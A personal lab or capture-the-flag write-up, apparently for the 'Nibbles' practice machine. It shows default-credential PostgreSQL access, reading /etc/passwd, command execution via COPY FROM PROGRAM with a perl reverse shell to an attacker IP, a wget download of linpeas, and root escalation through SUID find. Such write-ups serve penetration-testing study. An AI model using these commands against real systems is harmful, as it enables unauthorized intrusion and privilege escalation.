 Nmap scan revealed postgresql so I logged in from the attack machine using the default postgres creds:
![18ea7b229d658aefc3e2cc848dd6addb.png](../../../../_resources/18ea7b229d658aefc3e2cc848dd6addb.png)

CREATE TEMP TABLE yeet (INPUT TEXT);
COPY yeet from '/etc/passwd';
SELECT * FROM yeet;
![1adba8881fd021f0112c16003432ef71.png](../../../../_resources/1adba8881fd021f0112c16003432ef71.png)

Use strategy from above to read local.txt:
![8315e7bd24502c9d1de26e614f451698.png](../../../../_resources/8315e7bd24502c9d1de26e614f451698.png)

Use similar strategy to get shell on machine:
set up netcat listener on attackbox (this machine will only catch a listener on port 80 as the postgresql is expecting it there)
`nc -nlvp 80`

Test rce with a simple command:
![8dd624f181f6d18060f6717d16c737a4.png](../../../../_resources/8dd624f181f6d18060f6717d16c737a4.png)

Excellent. I tried to use a reverse python command with sockets, but that didn't work (or I just didn't know where to put quotes and such)

Also found perl on the system and found this guide: https://www.trenchesofit.com/2021/02/01/offensive-security-proving-grounds-nibbles-write-up-no-metasploit/ (couldn't copy and paste so I ended up viewing the page source, copying it, and then manually comparing to what was posted on the site that I couldn't copy)

After having already set up the table previously when testing with the 'which python' command, all that needed to be run was:
`COPY cmd_exec FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"192.168.49.188:80");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};''';`

And then I also ran this to trigger the shell connect:
`SELECT * FROM cmd_exec;`

Resulting in a netcat shell being returned to my listener set up on port 80:
![11700346868d8c6e9052c8ba07b5ed38.png](../../../../_resources/11700346868d8c6e9052c8ba07b5ed38.png)

Use python to make shell better:
`python -c 'import pty;pty.spawn("/bin/bash")'`

Get linpeas.sh on the device:
(From attack box in directory with linpeas.sh)
`python3 -m http.server 80`
(From target)
`wget http://[attacker_ip]/linpeas.sh`

It found an SUID set on the find binary. Testing with:
`find . -exec whoami \;`

It shows root over and over again. Now time to figure out how to use it to get a root shell: https://gtfobins.github.io/gtfobins/find/

![29f92610a18a09d29737de78bc5a1497.png](../../../../_resources/29f92610a18a09d29737de78bc5a1497.png)

`find . -exec /bin/sh -p \; -quit`

Got root shell finally. Grabbed proof.txt from /root/ 
